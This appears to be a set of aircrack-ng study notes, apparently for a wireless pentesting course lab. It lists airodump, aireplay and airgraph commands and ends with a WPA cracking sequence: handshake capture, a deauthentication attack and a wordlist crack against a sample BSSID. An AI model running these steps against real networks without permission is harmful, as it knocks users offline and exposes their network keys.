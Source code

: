 ```


```

## Airodump-ng
```
#Airodump command on a fixed channel
sudo airodump-ng wlan0mon -c 2

#Airodump-ng focused on a channel and BSSID
sudo airodump-ng -c 3 --bssid 34:08:04:09:3D:38 -w cap1 wlan0mon
```

## Airplay-ng
```
#Aireplay-ng injection test
sudo airmon-ng start wlan0 3
sudo aireplay-ng -9 wlan0mon

#Injection Test 
sudo aireplay-ng -9 wlan0mon
sudo aireplay-ng -9 -e wifu -a 34:08:04:09:3D:38 wlan0mon

#Card-to-Card (Attack) Injection Test
sudo aireplay-ng -9 -i wlan1mon wlan0mon
```

## Aircrack-ng
```
#Aircrack-ng Benchmark
aircrack-ng -S

#Removing Wireless Headers
sudo airdecap-ng -b 34:08:04:09:3D:38 opennet-01.cap

#Clients to AP Relationship Graph (dump-01.csv is a dump made by aircrack-ng "sudo airodump-ng wlan0mon -w out --output-format csv")
mkdir support
cd support
wget http://standards-oui.ieee.org/oui.txt
cd ..
airgraph-ng -o Picture1_png -i dump-01.csv -g CAPR

#Clients Probe Graph (relationships between wireless clients and probed networks)
airgraph-ng -o Picture2.png -i dump-01.csv -g CPG

```

# Cracking Authentication WPA Hashes
## Using Aircrack-ng Suite
```
#listening with airodump (should keep listening few minutes after deauth)
sudo airodump-ng -c 3 -w wpa --essid wifu --bssid 34:08:04:09:3D:38 wlan0mon
# deauthentication (-c option is for the client)
sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon

#cracking 
aircrack-ng -w /usr/share/john/password.lst -e wifu -b 34:08:04:09:3D:38 wpa-01.cap

#verigy the key by decrypting the traffic (assuming here 1234567 is the key)
```